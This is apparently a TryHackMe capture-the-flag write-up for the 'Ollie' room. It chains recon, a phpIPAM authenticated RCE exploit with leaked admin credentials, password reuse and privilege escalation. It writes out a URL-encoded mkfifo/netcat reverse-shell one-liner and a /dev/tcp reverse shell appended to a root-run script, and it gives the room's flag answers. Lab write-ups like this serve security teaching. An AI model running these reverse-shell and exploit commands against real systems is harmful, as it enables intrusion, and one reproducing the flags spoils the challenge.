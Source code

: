 # Ollie - Medium

```shell
sudo vim /etc/hosts
#add ollie.thm

nmap -T4 -p- -A -Pn -v ollie.thm

feroxbuster -u http://ollie.thm -w /usr/share/wordlists/dirb/common.txt -x php,html,bak,js,txt,json,docx,pdf,zip,aspx,sql,xml --extract-links --scan-limit 2 --filter-status 400,401,403,404,405,500

searchsploit phpipam

nc ollie.thm 1337
#we can interact with service
#this gives us creds for login on port 80

#get rce exploit script
python3 50963.py -url http://ollie.thm -usr admin -pwd "OllieUnixMontgomery\!" -cmd "id"

#setup listener
nc -nvlp 4444

#run exploit

#we get reverse-shell
python3 -c 'import pty;pty.spawn("/bin/bash")'

su ollie
#attempt password reuse
#it works

cd

cat user.txt

#in attacker machine
python3 -m http.server

#in ollie revshell
wget http://10.14.31.212:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh

#get pspy
wget http://10.14.31.212:8000/pspy64

chmod +x pspy64

./pspy64
#this shows feedme run as root

#stop this process
#and get shell again as ollie

nc -nvlp 4444
#get shell again

su ollie

ls -la /usr/bin/feedme
#we can read and write to this

cat /usr/bin/feedme

echo "sh -i >& /dev/tcp/10.14.31.212/6666 0>&1" >> /usr/bin/feedme

#setup listener
nc -nvlp 6666
#we get root shell

cat /root/root.txt
```

* Open ports & services:

  * 22 - ssh - OpenSSH 8.2p1 (Ubuntu)
  * 80 - http - Apache httpd 2.4.41
  * 1337 - waste

* Checking the webpage on port 80, we can see a login page for ```Ollie```.

* The footer shows that it is based on ```phpIPAM v1.4.5```.

* We can also enumerate the web directories using ```feroxbuster``` for clues.

* We get a few directories such as /app, /db, /functions, /install and /upgrade

* ```searchsploit``` shows a few SQLi and RCE exploits related to the ```phpIPAM``` software; we can look into that as well.

* ```nmap``` shows that we have a service on port 1337 as well - we can interact with it using ```nc```.

* Interacting with the service on 1337 shows that it is a chat service; it asks us a few questions.

* Replying with the correct answer out of the given options gives us the password for admin login on port 80.

* Now, we can log into the portal and attempt for the authenticated RCE exploit.

* Running the RCE exploit script works, and we are able to execute commands as ```www-data```.

* In order to get reverse-shell on our listener, we need to execute the following command, which is URL-encoded reverse-shell one-liner:

```rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20%2Di%202%3E%261%7Cnc%2010%2E14%2E31%2E212%204444%20%3E%2Ftmp%2Ff```

* If this does not work, we can navigate to <http://ollie.thm/evil.php?cmd=id>, and execute our command here.

* In our reverse-shell, we can now attempt for password-reuse with the password we used earlier for admin login.

* After getting user flag, we can start enumeration using ```linpeas```.

* ```linpeas``` does not give us anything, so we can attempt to use ```pspy``` to check for processes.

* ```pspy``` shows that a program ```feedme``` runs every minute, but it is not included in the cronjob.

* The program is run as ```/bin/bash /usr/bin/feedme```, and it is run as root (uid 0); we can inspect this binary.

* We will have to stop this process, and get shell as 'ollie' again, using the same method.

* We can check the binary - it shows we have write permissions.

* We can append a reverse-shell one-liner to the binary, and setup listener - we get root shell in a minute.

```markdown
1. What is the user.txt flag? - THM{Ollie_boi_is_daH_Cut3st}

2. What is the root.txt flag? - THM{Ollie_Luvs_Chicken_Fries}
```
